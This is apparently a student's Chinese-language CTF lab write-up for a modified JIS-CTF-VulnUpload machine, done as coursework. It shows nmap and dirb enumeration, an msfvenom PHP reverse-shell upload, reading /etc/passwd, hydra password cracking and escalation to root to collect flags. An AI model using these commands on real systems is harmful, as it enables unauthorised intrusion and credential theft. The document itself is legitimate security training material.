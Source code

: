 

### 攻擊主機：Kali_Linux_2019.3 
### 靶機：JIS-CTF-VulnUpload-CTF01
> 這個靶機跟網路上的不太一樣，因為教授改過內容才給我們打。
> ※教授說他忘了放第五支旗

#### 搜尋靶機IP
> **Kali>** <code>arp-scan -l</code> </br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/e53f9a10-cfff-4cc6-8ea3-7891432dcc6c)</br>
💡：去掉頭跟尾(IP)，確定靶機為 192.168.203.129


#### 弱點掃描
> 使用nmap進行弱掃
**Kali>** <code>nmap -v -sS -O -A -p- 192.168.203.129</code> </br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/6ced9f28-af7e-4be8-bbe9-12c976a83bc6)</br>
💡得知有開啟22port和80port

#### 先看看http://192.168.203.129
> 意外發現第四支旗
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/1b4aea6e-8720-47a5-a6ab-4ba0bb10bb08) <br/>
> (在Inspect Element中)<br/>
> 解碼之後：<br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/90dd9069-88ed-4e84-bb42-b2909b14955f)<br/>
```js
    There is a vuln of upload service on the next page after you log in. Please find the php-reverse-shell.php under /usr/share/webshells/php in kali linux. In order to get the reverse session from target, run nc -lvnp port#. Edit the "CHANGE THIS" in the  php-reverse-shell.php and then upload it :10 points
```
> 這個線索告訴我接下來要用反向工程，但我先把1~3支旗找回來<br/>

#### 使用dirb嘗試看看<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/378d385b-8ddc-4073-9f80-a24841b581d4)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/954f81f4-387a-4f15-aa83-fdcdeba341ba)<br/>
> 在 http://192.168.203.129/flag 找到第一支旗<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/3029e6e9-a3a2-4390-91ad-1f08fa929ecd)<br/>
```js
    This is a Jimmy's Cyber Class:10 points
```
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/dd47bca4-4bc2-4d34-963a-36900ca3a86b)<br/>
> 並在admin_area中找到第二支旗，還附了admin的帳密<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/b017c504-588b-4e7c-ae12-8f6d97677872)<br/>
```js
    You might have great time in this security class:10 points
```
> 在CSS中找到hint檔案，找到第三支旗<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/eaed5634-4316-43a6-9f16-86afdf364032)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/e5449597-ff8a-4b4e-a411-86f6ff4b8ead)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/3577cf9d-dbc5-4caa-87d0-714a526f7033) <br/>
```js
    Of course you know password crack is illegal:10 points
``` 

#### 進入靶機<br/>
> 使用第二支旗給的帳密<br/>
> 在 http://192.168.203.129/login.php (第四支旗的網頁)進入了可以上傳資料的網頁<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/0c9b6c6b-30d9-4b56-a8dc-dd2da4c0fc21)<br/>
> **使用反向工程**<br/>
> 在我好找的地方養一隻可愛的彩虹小馬<br/>
> <code>msfvenom -p php/reverse_php LHOST=192.168.203.129 LPORT=1234 -f raw > shell.php</code><br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/acba887e-1c5f-4741-a252-9417579f4156)<br/>
> 把他上傳<br/>
> 在掃80port的時候注意到有個upload_files，感覺可以讓靶機開我的檔案<br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/9beecb0f-a4a7-484b-a481-dad0820cdc88)<br/>
> 在upload_files開啟我的檔案，成功進入靶機<br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/1c487e45-5815-4a4c-9833-749ba16edfea)<br/>
> 我這時候只有www-data的權限，做不了甚麼但可以查看使用者<br/>
> <code>Cat /etc/passwd</code><br/>
> 有兩個使用者，Jimmy和technawi可以做密碼破解-->使用hydra<br/>
> 發現Jimmy比較容易破出來<br/>
> 使用Jimmy進行登入<br/>
> 發現bash無法下sudo，故先下bash指令<br/>
> **$** <code>su jimmy</code><br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/022276e4-2ed8-40bd-96b1-0c7f8bdf3df3) <br/>
> 成功變成能下sudo的bash
#### 提權成root
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/5589079d-8bfc-476d-8866-874dfbcf173b) </br>
> 成功😄

#### 找漏網之旗
> 在Home資料夾下看到了technawi和.jimmy兩個使用者資料夾</br>
> 在technawi中看到了Jun 5建立(教授放檔案進去的日期，看到這個日期都很可疑)的檔案有flag.txt和.credentials.txt</br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/c6272d81-d77c-4d3e-bb62-bb1445a703e3)</br>
> 得到第六支旗和第七支旗</br>
```js
    Great! But you need to find other account to execute sudo:15 points
[jimmy] is the account you need to hydra:15 points
``` 

> 在.jimmy中看到了Jun 5建立(教授放檔案進去的日期，看到這個日期都很可疑)的檔案有jimmy.txt</br>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/5c5a9bf1-518a-4ad8-b9b3-d98345ac2c96)</br>
> 得到了第八支旗</br>
```js
   As what we always said: Please protect yourself with these hacking skill:20 points
``` 

> 到root下看看有什麼</br>
> 在Desktop找到了Jun 5建立(教授放檔案進去的日期，看到這個日期都很可疑)的檔案有finish.txt和youseeme.jpg兩個檔案</br>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/7606dc42-08ec-434c-895b-7a522ab874f4)</br>
> 在finish.txt得到第九支旗</br>
```js
    Good JOB! You finished this CTF! Please protect yourself with these hacking skill:20 points
```

![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/896bd863-2f96-4fda-beb7-ba12e9d5f3d7)</br>
> 在youseeme.jpg得到第十支旗</br>
```js
    Look forward to seeing you again, and hope what I shared can help you ^_^ :20 points
```

#### ※補充：教授提供第十支旗的正確解法
> hexdump -C youseeme.jpg |more</br>
![Uploading image.png…]()</br>







